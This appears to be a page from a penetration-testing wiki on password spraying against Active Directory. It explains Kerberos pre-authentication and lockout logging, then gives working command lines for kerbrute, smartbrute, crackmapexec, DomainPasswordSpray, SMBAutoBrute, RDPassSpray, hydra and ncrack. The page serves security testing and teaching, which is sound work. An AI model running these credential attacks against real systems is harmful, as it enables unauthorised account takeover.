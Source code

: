 ```yaml
---
description: >-
  Password spraying refers to the attack method that takes a large number of
  usernames and loops them with a single password.
---
```


# Password spraying

{% hint style="info" %}
The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.
{% endhint %}

## **Kerberos pre-auth bruteforcing**

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication".

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from his password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called [pass-the-key](https://www.thehacker.recipes/ad-ds/movement/kerberos/pass-the-key).

Sometimes, the pre-authentication is disabled on some accounts. The attacker can then obtain information encrypted with the account's key. While the obtained TGT cannot be used since it's encrypted with a key the attacker has no knowledge of, the encrypted information can be used to bruteforce the account's password. This is called [ASREProast](https://www.thehacker.recipes/ad-ds/movement/kerberos/asreproast).

Last but not least, the pre-authentication step can be bruteforced. This type of [credential bruteforcing](https://www.thehacker.recipes/ad-ds/movement/credentials/bruteforcing) is way faster and stealthier than other bruteforcing methods relying on NTLM. Pre-authentication bruteforcing can even be faster by using UDP as the transport protocol, hence requiring less frames to be sent.

{% hint style="info" %}
Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.
{% endhint %}

{% embed url="https://github.com/ropnop/kerbrute" %}

### Username bruteforce

```
 ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
```

### Password bruteforce

```
./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
```

### Password spray

```
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
```

[smartbrute](https://github.com/ShutdownRepo/smartbrute) (Python) can be used to bruteforce credentials through the Kerberos pre-authentication. The smartbrute utility can be used in a `brute` mode (standard bruteforcing features) or in a `smart` mode (requires prior knowledge of a low-priv user credentials, but operates LDAP enumeration and avoid locking out accounts, fetches the users list and so on).

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN
​
# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos
```

### **​​Spray a pre-generated passwords list**

Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.

```
crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
```

Using `DomainPasswordSpray` to spray a password against all users of a domain.

```
# https://github.com/dafthack/DomainPasswordSpray
Invoke-DomainPasswordSpray -Password Summer2021!
# /!\ be careful with the account lockout !
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

Using `SMBAutoBrute`.

```
Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
```

### **Spray passwords against the RDP service**

Using RDPassSpray to target RDP services.

```
git clone https://github.com/xFreed0m/RDPassSpray
python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
```

Using hydra and ncrack to target RDP services.

```
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
```

****

### **BadPwdCount attribute**

{% hint style="info" %}
The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.
{% endhint %}

```
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

****
